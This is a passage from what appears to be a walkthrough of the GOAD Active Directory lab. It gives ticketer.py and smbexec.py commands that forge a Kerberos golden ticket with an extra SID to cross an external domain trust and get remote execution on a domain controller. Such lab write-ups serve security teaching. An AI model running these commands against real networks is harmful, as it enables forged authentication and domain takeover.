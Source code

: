 ![trust_dragonrider.png](/assets/blog/GOAD/trust_dragonrider.png)

- Create the golden ticket for a fake user

```bash
ticketer.py -nthash e58cf01ba6cc645da9f7ab1f28fc3934 \
-domain-sid S-1-5-21-2203133648-1386395927-1390703624 \
-domain essos.local \
-extra-sid S-1-5-21-1409754491-4246775990-3914137275-1132 \
dragon
```

- And use it (secretsdump will work too)

```bash
export KRB5CCNAME=/workspace/trusts/external/dragon.ccache
smbexec.py -k -no-pass dragon@kingslanding.sevenkingdoms.local -debug
```

![trust_external_golden_exploit.png](/assets/blog/GOAD/trust_external_golden_exploit.png)
